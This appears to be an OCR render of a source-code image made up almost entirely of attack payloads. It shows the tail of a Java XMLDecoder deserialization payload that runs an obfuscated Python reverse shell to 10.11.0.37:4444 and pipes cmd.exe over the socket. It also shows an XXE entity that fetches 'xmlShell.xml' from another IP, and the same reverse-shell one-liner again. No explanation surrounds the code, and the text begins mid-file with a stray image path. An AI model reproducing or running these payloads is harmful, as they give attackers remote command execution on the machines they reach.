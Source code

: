 				<string>C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
</string>									
			</void>		
		</array>		
		<void method="start"/>
	</object> 	
</java>	

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.15.189/xmlShell.xml"> ]>

C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
	